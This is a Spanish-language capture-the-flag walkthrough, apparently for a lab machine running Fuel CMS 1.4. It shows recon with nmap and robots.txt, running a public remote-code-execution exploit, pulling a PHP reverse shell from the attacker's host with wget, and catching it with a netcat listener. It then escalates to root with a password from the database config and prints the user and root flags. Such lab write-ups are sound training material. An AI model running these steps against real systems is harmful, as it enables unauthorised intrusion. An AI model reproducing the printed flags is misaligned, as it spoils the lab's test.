 # 1) Objetivo

En esta máquina de pentesting web debemos encontrar la flag user.txt y root.txt.

## 2) Reconocimiento y obtener acceso

Lo primero que haremos será usar Nmap para descubrir los puertos abiertos en la máquina y los servicios que corren. Usamos:

```
nmap -sV -A -T4 
```

Mientras se ejecuta nmap, probamos por si existiera un archivo robots.txt y tuviera información interesante. Vemos que nos aparece un directorio llamado /fuel/ el cual no quieren que sea indexado.

![](IMG/Pasted%20image%2020250310220737.png)

Terminado nmap, nos muestra que tenemos abierto el puerto 80, que está corriendo un servidor web con un CMS llamado fuel, y también nos muestra que hay un archivo robots.txt.

![](IMG/Pasted%20image%2020250310220934.png)

Probamos a acceder al directorio /fuel que nos aparece tanto en el archivo robots.txt como en el resultado de nmap, y vemos que hay una pantalla de login, como no tenemos ninguna credencial, poco podemos hacer.

![](IMG/Pasted%20image%2020250310221336.png)

si echamos un vistazo a la pagina principal, encontramos un nombre de usuario y una contraseña para acceder al panel de administración.

![](IMG/Pasted%20image%2020250310221600.png)

probamos a acceder, y podemos sin problema alguno.

![](IMG/Pasted%20image%2020250310221700.png)

Si echamos un vistazo a la documentación, descubrimos que la versión del CMS es la 1.4.

![](IMG/Pasted%20image%2020250310221751.png)

Con esta información, probamos a buscar algún exploit que nos permita obtener acceso en searchsploit (porque de primeras he buscado en metasploit, pero no había ninguno). 

```
searchsploit fuel cms
```

![](IMG/Pasted%20image%2020250310223401.png)

Y descargamos el 50477.py que es un exploit para php.

```
searchsploit -m php/webapps/50477.py
```

![](IMG/Pasted%20image%2020250310233236.png)

Una vez descargado, lo ejecutamos, desde el directorio donde lo hemos descargado.

```
python3 50477.py -u http://10.10.201.54
```

![](IMG/Pasted%20image%2020250311005558.png)

Lo cual nos ha dado una shell en la maquina objetivo, buscaremos la flag de usuario, ya que de momento solo tenemos esos privilegios. Como suponemos que estará en la carpeta home del usuario, primero comprobamos con pwd donde nos encontramos, y luego iremos navegando hasta el directorio home.

![](IMG/Pasted%20image%2020250311005821.png)

Como la shell que tenemos es muy básica, una vez encontremos la ruta donde se encuentra el archivo con la flag, lo abriremos directamente.

![](IMG/Pasted%20image%2020250311010114.png)

**user.txt (flag.txt): 6470e394cbf6dab6a91682cc8585059b**

# 3) Escalada de privilegios

Ya hemos conseguido acceso con permisos de usuario, ahora, trataremos de escalar los privilegios para obtener permisos root. Para hacer esto, usaremos una shell reversa de pentestmonkey que podemos descargar de [aquí](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Una vez tenemos descargado el archivo, lo modificaremos para añadir la ip de nuestra máquina atacante y el puerto por el que queremos que se conecte la shell reversa.

![](IMG/Pasted%20image%2020250311011036.png)

Una vez modificado, como tenemos acceso a la máquina con la shell que hicimos con el exploit, vamos a enviarle este archivo usando wget. así que primero tenemos que crear un servidor web, para que la maquina objetivo pueda descargar el archivo, usaremos en nuestra máquina atacante:

```
python3 -m http.server 80
```

![](IMG/Pasted%20image%2020250311011246.png)

Ahora, usando la shell que tenemos de la máquina objetivo, usamos wget para descargar el archivo.

```
wget http://10.8.16.0/php-reverse-shell.php
```

Veremos que se ha descargado correctamente.

![](IMG/Pasted%20image%2020250311011534.png)

Ahora que ya tenemos el archivo en la máquina objetivo, podemos parar el servidor web que habíamos iniciado, y ahora usaremos netcat para poner a la escucha en el puerto 4444 y así poder recibir la shell reversa cuando la ejecutemos.

```
nc -lvnp 4444
```

![](IMG/Pasted%20image%2020250311011741.png)

Con el puerto a la escucha, usamos el navegador para ejecutar el archivo que tenemos en la maquina objetivo.

![](IMG/Pasted%20image%2020250311011910.png)

Y veremos que hemos recibido la shell reversa.

![](IMG/Pasted%20image%2020250311011940.png)

Como esta shell no es interactiva, no podremos hacer root, así que podemos usar python para conseguir una shell bash, así:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Y ahora sí, tendremos una shell interactiva.

![](IMG/Pasted%20image%2020250311012142.png)

Ahora, usando "su root", deberíamos poder obtener privilegios de root, pero no tenemos la contraseña de root, así que debemos buscarla. Si recordamos, en la pagina principal había instrucciones para configurar el CMS, y entre esas instrucciones nos indicaba donde estaba el archivo de configuración de la base de datos, así que vamos a echarle un vistazo al archivo para ver si está la contraseña de root.

![](IMG/Pasted%20image%2020250311012539.png)

Navegaremos hasta la ruta que nos indican y abriremos el archivo de configuración, una vez abierto, encontraremos la contraseña de root, la cual es mememe

![](IMG/Pasted%20image%2020250311012945.png)

Todo este proceso, realmente podríamos haberlo hecho antes, pero bueno, en este caso el orden de los factores no altera el producto.

Ahora que ya tenemos la contraseña de root, sí podemos hacer:

```
su root
mememe
```

![](IMG/Pasted%20image%2020250311013309.png)

Y ahora, solo tendremos que buscar la flag y abrir el archivo para encontrar la respuesta.

![](IMG/Pasted%20image%2020250311013423.png)

**Root.txt: b9bbcb33e11b80be759c4e844862482d**